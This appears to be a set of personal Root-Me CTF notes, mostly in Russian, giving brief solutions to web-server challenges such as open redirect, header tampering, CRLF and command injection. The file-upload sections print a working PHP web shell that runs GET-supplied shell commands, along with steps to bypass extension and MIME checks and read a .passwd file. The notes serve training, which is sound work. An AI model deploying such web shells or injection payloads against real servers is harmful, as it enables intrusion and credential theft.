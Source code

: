 # Root me 

## Web Server

### 1. HTML - Source code

1) Checked page source ctrl+U.

### 2. HTTP - Open redirect

1) Обратить внимание на ссылку у кнопок соц сетей.
2) Структура состоит из ссылки и её хэша.
3) Узнать какой хэш можно на cyber chief.
4) Остаётся подставить любой другой сайт, посчитать хэш md5 и в бурпе просмотреть запросы. В теле редиректа будет флаг.

### 3. HTTP - User-agent

1) В хэдере изменить содержимое user-agent на admin.
   
### Weak password

1) Можно побрутить логин админ по словарю или вручнуб перебрать подхолящие тупые пароли.

### 4. PHP - Command injection

1) Для иньекции можно использовать & или ; cat index.php

### 5. Backup file

1) Проверить временный файл ~index.php. Идея берётся из owasp гайда

### 6. HTTP - Directory indexing

1) Проверить исходники страницы
2) Пройти по ссылке и следовать подсказкам на испанском блин

### 7. HTTP - Headers

1) Проверить в сыром виде заголовки респонса
2) Заменить значение необычного заголовкан на true

### 8. HTTP - POST

1) Перехватить POST запрос
2) Модифицировать очки для выигрыша в игре

### 9. HTTP - Improper redirect

1) Нарваться на ридеркт потыкаясь по дирректориям или взаимодействуя с формой
2) Просмотреть редирект в бурпе

### 10. HTTP - Verb tampering

1) Легенды гласят о технике подмены типа запроса для вызова ошибки у апача.

### 11. Install files

1) Дирбастинг на основе знания об устанавливаемом фреймворке
2) Поиск сенсетив информэйшн

### 12. CRLF

1) Инекция в бурпе строки аутентификации админа с символами: \r или \n - в urlencode для переноса ошибочной авторизации на строку ниже.

### 13. File upload - Double extensions

1) PHP имеет особенность, что он может парсить код не только из php-файлов, что даёт возможность модифицировать только расширение без MIME type в post запросе.

Англоязычный коллега удачно подсказал пейлоад с get параметром:
```php    
    Create a PHP file named "filename.php" containing this code:
        <?php echo "<pre>".passthru($_GET['command'])."</pre>"; ?>

    This script executes any shell command on the server by inserting a "command" parameter in GET request.
    Upload the PHP script as it is, you get "Wrong file extension!" error.
    Append either .gif|.jpg|.png to the filename, e.g. "filename.php.png".
    Upload the renamed PHP file. The server is fooled, thinks your file is an image and uploads it.
    Click on the "Stored in" URL. Instead of displaying an image, your PHP script is executed.
    Append "?command=ls -a ../../.." to the URL. This shell command is executed and displays the files contained in this directory, including hidden files (like ".passwd").
    Now that we’ve found the ".passwd" file, append "?command=cat ../../../.passwd" to the URL. It displays the content of the ".passwd" file, which is the password. Voila!
```

### 14. File upload - MIME type

```php    
    1) Create a PHP file named "filename.php" containing this code:
        <?php echo "<pre>".passthru($_GET['command'])."</pre>"; ?>

    This script executes any shell command on the server by inserting a "command" parameter in GET request.
    Upload the PHP script as it is, you get "Wrong file extension!" error.
    2) Append either .gif|.jpg|.png to the filename, e.g. "filename.php.png".
    3) Change MIME/type. Upload the renamed PHP file. The server is fooled, thinks your file is an image and uploads it.
    4) Click on the "Stored in" URL. Instead of displaying an image, your PHP script is executed.
    Append "?command=ls -a ../../.." to the URL. This shell command is executed and displays the files contained in this directory, including hidden files (like ".passwd").
    Now that we’ve found the ".passwd" file, append "?command=cat ../../../.passwd" to the URL. It displays the content of the ".passwd" file, which is the password. Voila!
```

### 15. HTTP - Cookies

1) В куках изменить одно значение на admin

### 16. Insecure Code Management

Tools for extracting .git
- https://github.com/arthaud/git-dumper
- https://github.com/internetwache/GitTools
- wget --recursive --no-parent http://challenge01.root-me.org/web-serveur/ch61/.git/ 

